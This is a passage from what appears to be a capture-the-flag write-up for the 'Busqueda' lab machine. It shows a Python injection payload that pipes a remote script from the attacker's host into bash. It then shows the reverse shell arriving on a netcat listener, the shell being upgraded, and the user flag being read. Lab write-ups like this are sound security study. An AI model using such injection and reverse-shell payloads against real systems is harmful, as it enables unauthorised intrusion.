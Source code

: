 Trigger payload

```bash
',__import__('os').system('curl 10.10.14.12/rev.sh|bash'))#
```

![](/assets/obsidian/8129798740e44792e527c703793617f0.png)

![](/assets/obsidian/c14dd974929d72937e0e125686a9785f.png)

```bash
┌──(root㉿kali)-[~/Busqueda]
└─# nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 33920
bash: cannot set terminal process group (1688): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
svc@busqueda:/var/www/app$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(root㉿kali)-[~/Busqueda]
└─# stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

svc@busqueda:/var/www/app$ cd ~
svc@busqueda:~$ cat user.txt
51e980e3a312ab7cbb7db4d6ecdc0f92
```


# Root Flag
---
